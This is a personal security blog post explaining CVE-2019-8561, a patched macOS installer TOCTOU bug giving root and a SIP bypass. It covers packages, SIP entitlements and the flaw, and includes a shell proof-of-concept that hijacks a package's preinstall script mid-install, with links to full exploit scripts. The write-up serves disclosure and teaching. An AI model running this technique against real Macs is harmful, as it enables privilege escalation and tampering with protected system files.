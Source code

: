 ```yaml
---
title:		"CVE-2019-8561 Proof of Concept Exploit"
subtitle:	"Privilege Escalation & SIP Bypass 👀"
excerpt:	"In June 2019 at Objective by the Sea v2.0 (OBTS), Jaron Bradley dropped CVE-2019-8561. It was patched in macOS 10.14.4. It's still worth writing about though because it is wonderfully simple and gets us r00t as well as a System Integrity Protection (SIP) bypass."
tags:		[Bug, Proof of Concept, Exploit, Mojave]
---
```


(_N.B This is a half finished post that I'm publishing to share the knowledge and get it out of my drafts_)

In June 2019 at [Objective by the Sea v2.0](https://objectivebythesea.com/v2/) (OBTS), [Jaron Bradley](https://twitter.com/jbradley89) [dropped CVE-2019-8561](https://www.youtube.com/watch?v=5nOxznrOK48). It was patched in macOS [`10.14.4`](https://support.apple.com/en-gb/HT209600). It's still worth writing about though because it is wonderfully simple and gets us r00t as well as a System Integrity Protection (SIP) bypass.

In this post we'll be using [GPG Suite](http://gpgtools.org) and Apple's [Pro Video Formats 2.1](https://support.apple.com/kb/DL1988) as our target installer packages. **This vulnerability has nothing to do with these packages**. GPG Suite happens to be the only application bundled as a package installed on my MacBook and Jaron used Pro Video Formats in his OBTS demo.

# Background

## Packages (`.pkg`) 

Installation packages are directories, that appear as one file (`.pkg`) in Finder, which:

>...contain a product or product component -the package’s payload— to be installed on a computer, and install configuration information that determines where and how the product is installed. [^1]

This is what you see after you double click GPG Suite's `Install.pkg` file.

![no-alignment](/img/posts/cve-2019-8561-poc/gpg-suite.png)

## `installer`

`installer` (`/usr/sbin/installer`) is the system binary responsible for installing packages. You can also use it to install packages from the command line. We can step through how to install GPG Suite via `installer` in `Terminal.app`.

1. Download [GPG Suite](https://gpgtools.org)
2. Mount the DMG
	- `hdiutil attach "$HOME/Downloads/GPG_Suite-2019.2.dmg"`
3. Change into the DMGs directory
	- `cd  "/Volumes/GPG Suite/"`
4. Execute `ls`, you should see a file named `Installer.pkg`
```
0xmachos on 🍎GLaDOS📦 in /Volumes/GPG Suite
$ ls
GPGSuite-dmg.png  Install.pkg       Uninstall.app/
```
6. Tell `installer` which package to install and where
	- `installer -pkg "Install.pkg" -target "/"`


## `system_installd`

### SIP Background

SIP was [introduced in OS X El Capitan](https://support.apple.com/en-hk/HT204899) (`10.11`). It's a security feature which is designed to protect the OS files [on disk and at run time](https://developer.apple.com/library/archive/documentation/Security/Conceptual/System_Integrity_Protection_Guide/Introduction/Introduction.html). 

In short, it prevents modification of certain OS files even by `root`. However Apple still needs a way to update the OS so:  
> System Integrity Protection is designed to allow modification of these protected parts only by processes that are signed by Apple and have special entitlements to write to system files, such as Apple software updates and Apple installers. [^2]

Modification of SIP protected files requires the `com.apple.rootless.install` entitlement. You can see which system binaries have this entitlement by [looking it up](http://newosxbook.com/ent.jl?ent=com.apple.rootless.install&osVer=MacOS13) in [Jonathon Levin](https://twitter.com/Morpheus______)'s entitlements database.

Any Apple signed package/ software will be installed by `system_installd`. I first heard of this binary in Howard Oakley's [How your Mac can download an old ‘security’ update by accident](https://eclecticlight.co/2018/01/17/how-your-mac-can-download-an-old-security-update-by-accident/) post.

We can use Jonathan Levin's tool `jtool` (or `codesign -d --entitlements`) to dump `system_installd` entitlements: 
```
0xmachos on 🍎GLaDOS📦 in ~
$ jtool --ent /System/Library/PrivateFrameworks/PackageKit.framework/Versions/A/Resources/system_installd
...
  <key>com.apple.private.launchservices.cansetapplicationstrusted</key>
  <true/>
  <key>com.apple.rootless.install.heritable</key>
  <true/>
...
```
Any binary with the entitlement `com.apple.rootless.install.heritable` affords child process it spawns the ability to inherit it's `com.apple.rootless.install` entitlement. Thus, any package it installs will have the ability to modify SIP protected files.

[Patrick Wardle](https://twitter.com/patrickwardle) wrote about how this entitlement could be abused to bypass SIP in his 2016 post [[0day] Bypassing Apple's System Integrity Protection](https://objective-see.com/blog/blog_0x14.html).

<!-- ## Back to `system_installd`

We can see this transition from `installer` to `system_installd` by watching `install.log` during the installation of Pro Video Formats. Before opening `ProVideoFormat.pkg` execute:
```
tail -f -n 0 /var/log/install.log
```

```
``` -->


# The Bug

This is a Time of Check Time of Use (TOCTOU) bug within `installer` and `system_installd` (`Package Kit`).

When you initially double click on a `.pkg` and it's loaded by `Installer` there is a small window for an attacker to expand the `.pkg` modify it and re-flatten it. This User Interface (UI) will still show that the package is correctly code signed and `installer` will execute the modified files.

# Proof of Concept Exploit

In theory all we have to do to exploit the TOCTOU bug is: 
1. Monitor `/var/log/install.log` for a package being installed
  * Extract the package location
2. Use `pkgutil` to expand the package
3. Modify the package contents to add a payload
4. Use `pkgutil` to flatten the package
5. Wait for the installer to finish

```shell
expand_path="/tmp/Install"
# Location to expand pkg into

# Detect package install starting
( tail -f -n 0  /var/log/install.log & ) | grep -q 'Opened from:' 

# Extract package location
pkg_path=$(grep 'Opened from:' /var/log/install.log | tail -1 | cut -d ' ' -f7-)

# Expand package 
pkgutil --expand "${pkg_path}" "${expand_path}"

# Replacing the preinstall script with our payload
preinstall_file="${expand_path}/preinstall.pkg/Scripts/preinstall"

cat <<EOF > "${preinstall_file}"
#!/bin/bash

touch /var/test
chmod +x /var/test
EOF

# Flatten the package
pkgutil --flatten  "${expand_path}" "${expand_path}.pkg"
```

In reality it's slightly more complicated, but not by much. There are some permission issues that need to be accounted for and a separate TOCTOU issue that affects how much space the system thinks the target disk image (`.dmg`) has, if your target package comes on a disk image. We also need to work around read-only disk images.

You can view my full, working, r00t Proof of Concept (PoC) script [`gpg_poc`](https://github.com/0xmachos/CVE-2019-8561/blob/master/gpg_poc) for all the details.

# SIP Bypass

As mentioned above any binary with the entitlement `com.apple.rootless.install.heritable` affords its child process the ability to bypass SIP. So in theory all we need to do is find a package with with that entitlement and exploit the same TOCTU bug. 

Jaron already did the hard work, he found that the Final Cut Pro Video Formats package has `com.apple.rootless.install.heritable`. This post is half finished so I never managed to get a SIP bypass PoC working. You need to monitor for different events in `/var/log/install.log` as the TOCTU bug affects `system_installd` slightly differently than `installer`.

For the sake of completeness I have published my half done, not currently working, SIP bypass PoC [`sip_poc`](https://github.com/0xmachos/CVE-2019-8561/blob/master/sip_poc). 


# Conclusion

Crazy simple bug with big impact. The exploitation is very noisy give that it requires you to modify multiple files on disk, re-size a DMG and change file permissions. Still a phenomenal find from Jaron though.

Go watch [Jaron's](https://twitter.com/jbradley89) OBTSv2 talk "[Bad Things in Small Packages](https://www.youtube.com/watch?v=5nOxznrOK48)" where he demonstrates getting r00t, bypassing SIP and explains the bug better than I have above.

You can find all my code for this at [0xmachos/CVE-2019-8561](https://github.com/0xmachos/CVE-2019-8561).

![center-aligned-image](/img/dogs/dachshund02.jpg){: .align-center alt="Golden Dachshund laying on grass"}
Photo by <a href="https://unsplash.com/@morenocaleb">Caleb Moreno</a> on <a href="https://unsplash.com/photos/brown-puppy-on-grass-WWt7lY-P27o">Unsplash</a>


<!-- I've [previously written about OBTS v2.0](https://0xmachos.github.io/2019-06-10-Objective-by-the-Sea-2.0/) and my favourite talks. -->

[^1]: [Software Delivery Legacy Guide: What is a Package?](https://developer.apple.com/library/archive/documentation/DeveloperTools/Conceptual/SoftwareDistribution4/Managed_Installs/Managed_Installs.html#//apple_ref/doc/uid/TP40004615-CH6-SW9)
[^2]: [About System Integrity Protection on your Mac](https://support.apple.com/en-hk/HT204899)


